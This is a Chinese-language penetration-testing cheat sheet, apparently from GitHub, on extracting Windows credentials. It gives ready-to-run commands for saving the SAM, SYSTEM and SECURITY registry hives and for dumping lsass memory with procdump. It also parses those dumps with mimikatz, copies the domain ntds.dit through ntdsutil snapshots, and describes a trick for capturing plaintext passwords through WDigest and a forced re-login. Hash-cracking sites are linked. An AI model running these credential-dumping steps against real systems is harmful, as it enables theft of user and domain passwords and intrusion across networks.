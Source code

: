 # Windows Hash提取

## 0x00 基础知识

- LM Hash Windows Vista和Windows Server 2008以前的系统还会使用
- NTLM Hash
- Net-NTLM Hash 网络环境下NTLM认证中的hash

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D)
## 0x01 离线获取Hash
### 1. 导出SAM和SYSTEM表方法
#### （1）目标主机注册表导出文件
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save hklm\security security.hive
```
#### （2）通过mimikatz导出Hash

```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /sam:sam.hive /system:system.hive
```
### 2. 导出lsass进程内存方法

#### （1）目标主机lsass.exe dump内存

[内网渗透-免杀抓取windows hash](https://www.freebuf.com/column/231880.html)介绍了一些方法，主要是为了过杀软，如果能登录3389可以直接用任务管理器右键导出lsass.exe的内存。

#### （2）通过mimikatz导出Hash
```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz# sekurlsa::minidump 1.bin
mimikatz# sekurlsa::loginpasswords full
```

### 3. 导出域Hash ntds,dit
```
 创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
GUID 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 挂载快照
ntdsutil snapshot "mount GUID" quit quit

# 复制 ntds.dit
copy C:\$SNAP_201908200435_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

# 卸载快照
ntdsutil snapshot "unmount GUID" quit quit

# 删除快照
ntdsutil snapshot "delete GUID" quit quit

# 查询快照
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
 ```
## 0x02 主机获取密码

### 获取明文密码

>在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。
但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
Windows 7
Windows 8
Windows 8.1
Windows Server 2008
Windows Server 2012
Windows Server 2012R 2

- 原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码

procdump64.exe导出lsass.dmp
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
使用本地的mimikatz.exe读取lsass.dmp
```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
```

## 0x03 破解 Hash 
>超好用，可惜已经停止服务了
- [Ophcrack 在线破解](https://www.objectif-securite.ch/en/ophcrack)

- [Cmd5在线破解](https://www.cmd5.com/)

## Ref

- https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D 
- https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html
- [内网渗透-免杀抓取windows hash](https://www.freebuf.com/column/231880.html)

